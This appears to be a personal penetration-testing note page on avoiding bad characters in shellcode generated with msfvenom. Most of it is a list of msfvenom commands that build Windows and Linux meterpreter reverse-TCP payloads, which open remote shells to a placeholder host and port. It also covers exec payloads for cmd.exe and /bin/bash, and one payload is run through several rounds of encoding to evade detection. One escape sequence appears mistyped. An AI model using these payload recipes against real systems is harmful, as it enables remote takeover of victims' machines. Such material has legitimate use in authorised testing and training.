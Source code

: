 # Bad Characters

- When removing bad characters `msfvenom` will warn you by throwing an error that in case if the shellcode have problems try to use with [[Encoders|enoders]] to get around it. Here are the some specific payloads that I've played around with and this is the result I get:

`$ msfvenom -p windows/meterpreter/reverse_tcp lhost=<IP> lport=<PORT> -b "\x00\xff\x0a\x0d" -f c > payload-x86.c`

`$ msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=<IP> lport=<PORT> -b "\x00\x0a\x0d" -f c > payload-x64.c`

`$ msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=<IP> lport=<PORT> -b "\x0a\x0d" -e x64/zutto_dekiru -i 9 -f c > payload-x64-enc.c`

`$ msfvenom -p linux/x86/meterpreter/reverse_tcp lhost=<IP> lport=<PORT> -b "\x00\xff\x0a\x0d" -f c > payload-x86.c`

`$ msfvenom -p linux/x64/meterpreter/reverse_tcp lhost=<IP> lport=<PORT> -b "\x00\x0a\x0d" -f c > payload-x64.c`

`$ msfvenom -p windows/x64/exec cmd=cmd.exe -b "\x00\x0a\0xd" -f c > payload-x64.c`

`$ msfvenom -p linux/x64/exec cmd=/bin/bash -b "\x00\x0a\x0d" -f c > payload-x64.c`